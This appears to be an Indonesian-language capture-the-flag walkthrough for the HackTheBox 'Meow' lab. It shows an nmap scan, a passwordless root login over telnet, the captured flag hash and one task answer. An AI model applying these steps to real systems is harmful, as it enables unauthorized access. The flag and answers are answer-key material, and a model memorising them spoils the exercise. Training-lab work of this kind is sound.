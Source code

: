 # HackTheBox - Starting Point Walkthrough
Created By [Badzlan Nur Dhabith](https://www.linkedin.com/in/badzlannurdhabith/)

## Challenge : Meow
### Steps and Solutions
Pertama lakukan pengecekan apakah sudah ada tunnel ip target, dengan command :
```
ifconfig
```
```
┌──(root㉿localhost)-[~]
└─# ifconfig                                    
...
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.56  netmask 255.255.254.0  destination 10.10.14.56
        inet6 dead:beef:2::1036  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::8e5c:baa2:365b:2370  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1  bytes 48 (48.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
jika sudah ada tun0 berarti kita sudah connect dengan target dengan openvpn

------------------------------------------------------------------------------------------------------

Lalu, cek apakah kita dan target sudah terhubung, dengan command :
```
ping [ip target]
```
```
┌──(root㉿localhost)-[~]
└─# ping 10.129.49.229
PING 10.129.49.229 (10.129.49.229) 56(84) bytes of data.
64 bytes from 10.129.49.229: icmp_seq=1 ttl=63 time=253 ms
64 bytes from 10.129.49.229: icmp_seq=3 ttl=63 time=268 ms
64 bytes from 10.129.49.229: icmp_seq=4 ttl=63 time=257 ms
64 bytes from 10.129.49.229: icmp_seq=5 ttl=63 time=255 ms
--- 10.129.49.229 ping statistics ---
5 packets transmitted, 4 received, 20% packet loss, time 4021ms
rtt min/avg/max/mdev = 253.414/258.182/267.999/5.776 ms
```

------------------------------------------------------------------------------------------------------

• Selanjutnya, lakukan scanning port target untuk melihat port dan service yang open, dengan command :
```
nmap -sV [ip target]
```
```
┌──(root㉿localhost)-[~]
└─# nmap -sV 10.129.49.229        
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-01 23:10 EDT
Nmap scan report for 10.129.49.229
Host is up (0.35s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.22 seconds
```
dari hasil scanning terlihat bahwa port yang open adalah port 23 dengan service telnet

------------------------------------------------------------------------------------------------------

Kemudian, kita coba telnet target untuk melihat file dan direktori target menggunakan command :
```
telnet [ip target]
```
login sebagai root agar bisa masuk tanpa password
```
┌──(root㉿localhost)-[~]
└─# telnet 10.129.49.229                                                                                         
Trying 10.129.49.229...
Connected to 10.129.49.229.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 02 Sep 2022 03:22:51 AM UTC

  System load:           0.08
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             141
  Users logged in:       0
  IPv4 address for eth0: 10.129.49.229
  IPv6 address for eth0: dead:beef::250:56ff:feb9:98fc

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
```

------------------------------------------------------------------------------------------------------

Selanjutnya, kita coba lihat list file dan direktori target dengan command :
```
ls
```
```
root@Meow:~# ls
flag.txt  snap
```
ternyata ada file bernama flag.txt

------------------------------------------------------------------------------------------------------

Lalu open file tersebut dengan command :
```
cat [nama file]
```
```
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
```

------------------------------------------------------------------------------------------------------

### Walkthrough
#### Task 1
What does the acronym VM stand for?
Answer : Virtual Machine
